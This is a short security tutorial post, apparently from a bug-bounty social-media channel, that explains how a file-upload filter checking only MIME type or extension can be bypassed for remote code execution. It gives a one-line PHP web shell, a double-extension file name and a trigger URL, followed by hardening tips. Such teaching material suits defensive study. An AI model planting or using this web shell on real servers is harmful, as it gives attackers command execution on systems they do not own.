 ## 🧠 Unsafe File Upload → MIME Type Bypass

### 📂 From innocent upload… to full Remote Code Execution 💥

### ⚠️ Attack Flow:

1. Application only checks `Content-Type` header or file extension (common misconfiguration)
2. Attacker uploads `shell.php.jpg` — appears as an image, but hides PHP code
3. Server accepts it (no deep content inspection)
4. File lands in a web-accessible path and is executed by PHP interpreter

---

### 🛠 Payload Example:

```php
<?php system($_GET["cmd"]); ?>
```

Upload it as:

```txt
shell.php.jpg
```

Access it via:

```url
https://target.com/uploads/shell.php.jpg?cmd=id
```

If the web server (Apache/Nginx) interprets `.php` before `.jpg`, you've triggered code execution. ✅

---

### 🔒 Hardening Tips:

* Use deep content inspection (validate real file MIME type)
* Strip or sanitize file extensions before saving
* Store uploaded files outside of web root
* Disable execution in upload directories:

  * Apache: `.htaccess` with `php_flag engine off`
  * Nginx: `location /uploads/ { deny all; }`

---

### 💡 Real-World Relevance:

Even in 2025, unsafe upload flaws are **widespread**.

Escalate from low-severity file upload to **critical RCE** in a single click.

---

🚀 Follow **@cybersecplayground** for hands-on exploits, recon tricks, and advanced web hacking tutorials.

💡 All tips & tricks: [GitHub - cybersecplayground](https://github.com/cybersecplayground)

💬 Like + 🔁 Share if you've ever dropped a shell via image upload!

---

\#bugbounty #cybersecplayground #fileupload #infosec #rce #websecurity #pentesting
